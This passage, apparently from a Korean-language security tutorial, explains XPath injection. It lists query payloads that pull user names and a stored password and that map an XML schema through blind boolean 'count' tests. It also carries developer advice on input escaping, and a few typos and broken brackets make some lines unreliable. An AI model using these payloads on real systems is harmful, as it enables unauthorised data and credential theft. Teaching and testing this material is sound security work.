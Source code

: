 XPath Injection을 통해 정보에 접근하는 것은 웹 응용 프로그램의 취약점을 악용하는 것이므로, 개발자는 사용자 입력을 적절하게 검증하고 이스케이프 처리하여 XPath Injection 공격을 방지해야 합니다.
```
All names - [pepe, mark, fino]
name
//name
//name/node()
//name/child::node()
user/name
user//name
/user/name
//user/name

All values - [pepe, peponcio, admin, mark, ...]
//user/node()
//user/child::node()


Positions
//user[position()=1]/name #pepe
//user[last()-1]/name #mark
//user[position()=1]/child::node()[position()=2] #peponcio (password)

Functions
count(//user/node()) #3*3 = 9 (count all values)
string-length(//user[position()=1]/child::node()[position()=1]) #Length of "pepe" = 4
substrig(//user[position()=2/child::node()[position()=1],2,1) #Substring of mark: pos=2,length=1 --> "a"
```
### 스키마 식별 및 도용

XPath Injection은 웹 응용 프로그램에서 발생하는 보안 취약점 중 하나입니다. XPath 언어를 사용하여 XML 문서를 쿼리하는 경우, 사용자 입력을 적절하게 처리하지 않으면 XPath 쿼리에 삽입된 악성 코드로 인해 공격자가 원하는 정보를 도용할 수 있습니다.

XPath Injection을 통해 스키마를 식별하고 도용하는 과정은 다음과 같습니다:

1. 취약한 웹 응용 프로그램을 식별합니다.
2. 입력 필드에 악성 XPath 쿼리를 삽입합니다.
3. 삽입한 XPath 쿼리를 통해 원하는 정보를 추출합니다.
4. 추출한 정보를 공격자가 접근 가능한 위치로 전송합니다.

XPath Injection은 웹 응용 프로그램의 취약점을 이용하여 스키마를 도용하는 강력한 공격 기법입니다. 따라서 개발자는 사용자 입력을 적절하게 필터링하고 이스케이프 처리하여 XPath Injection 공격으로부터 보호해야 합니다.
```python
and count(/*) = 1 #root
and count(/*[1]/*) = 2 #count(root) = 2 (a,c)
and count(/*[1]/*[1]/*) = 1 #count(a) = 1 (b)
and count(/*[1]/*[1]/*[1]/*) = 0 #count(b) = 0
and count(/*[1]/*[2]/*) = 3 #count(c) = 3 (d,e,f)
and count(/*[1]/*[2]/*[1]/*) = 0 #count(d) = 0
and count(/*[1]/*[2]/*[2]/*) = 0 #count(e) = 0
and count(/*[1]/*[2]/*[3]/*) = 1 #count(f) = 1 (g)
and count(/*[1]/*[2]/*[3]/[1]*) = 0 #count(g) = 0

#The previous solutions are the representation of a schema like the following
#(at this stage we don't know the name of the tags, but jus the schema)
<root>
<a>
<b></b>
</a>
<c>
<d></d>
<e></e>
<f>
<h></h>
```